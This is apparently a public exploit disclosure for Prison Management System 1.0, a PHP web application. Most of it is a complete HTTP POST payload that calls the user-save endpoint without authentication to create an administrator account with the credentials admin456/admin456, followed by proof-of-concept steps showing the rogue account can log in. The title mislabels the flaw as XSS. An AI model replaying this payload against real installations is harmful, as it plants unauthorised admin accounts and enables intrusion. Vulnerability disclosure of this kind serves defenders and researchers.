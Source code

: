 # Prison Management System  -create_new user Identification and Authentication Failures


#### Exploit Title: Prison Management System  - create_new user Identification and Authentication Failures(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /pms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29640840124261413792559575304
Content-Length: 1033
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/admin/?page=user/manage_user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="id"


-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="firstname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="middlename"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="lastname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="username"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="password"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="type"

1
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------29640840124261413792559575304--


```



#### Proof of Concept

1. Send payload
     
2. Open Page http://192.168.67.5/pms/admin/?page=user/list，See one more user added.

   ![image-20220607102303096](Prison Management System--.assets/image-20220607102303096.png)

   

   

3. `admin456/admin456` can login system;

     ![image-20220607103500640](Prison Management System--.assets/image-20220607103500640.png)



